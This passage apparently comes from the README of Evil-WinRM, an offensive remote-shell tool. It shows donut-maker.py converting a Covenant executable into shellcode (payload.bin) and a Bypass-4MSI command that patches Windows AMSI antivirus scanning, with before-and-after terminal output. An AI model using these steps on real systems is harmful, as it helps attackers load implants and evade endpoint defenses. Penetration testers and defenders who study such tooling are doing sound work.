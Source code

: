 ```
    Description
    -----------
    Function that loads an arbitrary donut :D
```

You can use this [donut-maker](https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py) to generate the payload.bin if you don't use Windows. This script use a python module written by Marcello Salvati ([byt3bl33d3r](https://twitter.com/byt3bl33d3r)). It could be installed using pip: `pip3 install donut-shellcode`

```
python3 donut-maker.py -i Covenant.exe

   ___  _____
 .'/,-Y"     "~-.
 l.Y             ^.
 /\               _\_      Donuts!
i            ___/"   "\
|          /"   "\   o !
l         ]     o !__./
 \ _  _    \.___./    "~\
  X \/ \            ___./
 ( \ ___.   _..--~~"   ~`-.
  ` Z,--   /               \
    \__.  (   /       ______)
      \   l  /-----~~" /
       Y   \          /
       |    "x______.^
       |           \
       j            Y



[+] Donut generated successfully: payload.bin
```

- Bypass-4MSI: patchs AMSI protection.

```
*Evil-WinRM* PS C:\> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
*Evil-WinRM* PS C:\>
*Evil-WinRM* PS C:\> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\> #amsiscanbuffer
*Evil-WinRM* PS C:\>
```
